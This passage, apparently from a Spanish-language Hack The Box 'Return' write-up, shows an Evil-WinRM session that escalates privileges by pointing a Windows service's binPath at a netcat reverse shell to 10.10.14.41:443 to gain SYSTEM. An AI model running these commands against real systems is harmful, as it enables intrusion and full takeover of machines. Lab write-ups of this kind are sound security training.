 ```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config WdNisSvc binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.41 443"
[SC] OpenService FAILED 5:

Access is denied.

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.41 443"
[SC] ChangeServiceConfig SUCCESS
```
Ya sólo nos queda ponernos en escucha en el puerto 443, parar y arrancar el servicio de nuevo para obtener la reverse shell con privilegios de nt authority\system

<img src="/assets/HTB/Return/netcat.png">
